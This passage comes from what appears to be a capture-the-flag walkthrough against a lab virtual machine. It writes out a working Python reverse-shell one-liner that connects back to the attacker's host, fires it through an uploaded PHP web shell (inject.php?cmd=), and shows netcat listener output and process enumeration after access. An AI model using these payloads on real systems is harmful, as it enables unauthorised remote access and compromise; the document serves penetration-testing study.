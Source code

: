 However, catching the shell on my own machine the usual way did not work:

```bash
kali@kali:~$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.102] 37110
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
HTTP/1.1 200 OK
Date: Sun, 03 May 2020 13:00:26 GMT
Server: Apache/2.4.18 (Ubuntu)
Dave: Soemthing does not look right here
Content-Length: 0
Content-Type: text/html; charset=UTF-8

kali@kali:~$
```

I tried again through various other ways of which the following Python alternative worked:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```bash
kali@kali:~$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.114] 32930
/bin/sh: 0: can not access tty; job control turned off
$ whoami
www-data
```

I have to mention that using `curl` to catch the reverse shell did not work, this had to be done by manually visiting the entire url in my browser: `https://192.168.56.114:12380/blogblog/wp-content/uploads/inject.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`.

I started enumerating the machine for things that stood out. One of the things I noticed was the Python HTTP server running from the `/home/JKanode` directory, so I gave that directory a look.

```bash
$ ps aux | grep root | grep -v ]
ps aux | grep root | grep -v ]
root         1  0.0  0.4   6728  4616 ?        Ss   10:29   0:03 /sbin/init
root       379  0.0  0.2   5748  2684 ?        Ss   10:29   0:00 /lib/systemd/systemd-journald
root       396  0.0  0.1  13284  1368 ?        Ss   10:29   0:00 /sbin/lvmetad -f
root       420  0.0  0.3  13840  3188 ?        Ss   10:29   0:00 /lib/systemd/systemd-udevd
root       533  0.0  0.2   4076  2776 ?        Ss   10:29   0:00 /lib/systemd/systemd-logind
root       544  0.0  0.2   5576  2600 ?        Ss   10:29   0:00 /usr/sbin/cron -f
root       545  0.0  0.2 113904  3004 ?        Ssl  10:29   0:04 /usr/bin/lxcfs /var/lib/lxcfs/
root       563  0.0  0.1   2244  1176 ?        Ss   10:29   0:00 /usr/sbin/acpid
root       706  0.0  0.0   3132   108 ?        Ss   10:29   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root       845  0.0  0.5  10104  5148 ?        Ss   10:29   0:00 /usr/sbin/sshd -D
root       863  0.0  0.2   5308  2928 ?        Ss   10:29   0:00 /usr/sbin/vsftpd /etc/vsftpd.conf
root       890  0.0  0.0   2984   124 ?        Ss   10:29   0:00 /sbin/iscsid
root       891  0.0  0.2   3444  2844 ?        S<Ls 10:29   0:03 /sbin/iscsid
root       995  0.0  0.1   2540  1652 ?        S    10:29   0:00 /usr/sbin/inetutils-inetd
root      1070  0.0  2.0 127044 21464 ?        Ss   10:29   0:01 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
root      1119  0.0  0.5  26228  5200 ?        Ss   10:29   0:00 /usr/sbin/nmbd -D
root      1120  0.0  1.2  42308 12340 ?        Ss   10:29   0:00 /usr/sbin/smbd -D
root      1123  0.0  0.2   6008  2600 ?        Ss   10:29   0:00 dhclient enp0s3
root      1125  0.0  0.4  40464  4656 ?        S    10:29   0:00 /usr/sbin/smbd -D
root      1128  0.0  2.0 127368 21208 ?        Ss   10:29   0:00 /usr/sbin/apache2 -k start
```